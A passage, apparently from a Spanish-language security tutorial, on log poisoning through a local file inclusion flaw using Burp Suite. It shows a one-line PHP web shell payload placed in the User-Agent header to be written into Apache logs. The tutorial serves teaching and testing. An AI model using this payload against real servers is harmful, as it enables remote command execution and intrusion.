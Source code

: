 ### Envenenando con Burp Suite

Interceptamos una petición LFI y modificamos el header User-Agent:

![Burp Suite Poisoning](/assets/img/posts/log-poisoning/burp-poisoning.png)
_Modificación del User-Agent header para envenenamiento de logs_

Como se esperaba, nuestro valor personalizado de User-Agent es visible en el archivo de log incluido.

### Inyectando Web Shell

Ahora envenenamos el log configurando el User-Agent a un web shell PHP básico:

```http
User-Agent: <?php system($_GET['cmd']); ?>
```

![Log Web Shell](/assets/img/posts/log-poisoning/log-webshell.png)
_Inyección de web shell en el log de Apache_
